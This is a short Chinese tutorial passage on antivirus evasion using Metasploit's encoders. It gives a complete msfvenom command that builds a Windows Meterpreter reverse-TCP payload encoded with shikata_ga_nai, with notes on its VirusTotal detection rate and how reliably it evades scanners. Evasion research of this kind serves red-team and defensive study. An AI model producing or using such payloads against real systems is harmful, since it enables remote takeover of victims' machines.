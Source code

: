 ![9583e85bd50c09f2e90c89dee4ded9ae](images/2020.02-bypass-01/1.png)

## 7.2 msf自编码免杀(VT查杀率51/69)

操作便利★★★★★

免杀效果★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

metasploit提供了多个`encoders`可以对payload进行处理，使用`msfvenom --list encoders`可查看所有编码器。

评级最高的两个encoder为`cmd/powershell_base64`和`x86/shikata_ga_nai`，其中`x86/shikata_ga_nai`也是免杀中使用频率最高的一个编码器了。

生成示例：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\x00" -i 15  -f exe -o payload2.exe
```
经测试，可正常上线。在`virustotal.com`上查杀率为51/69。

由于`shikata_ga_nai`编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。
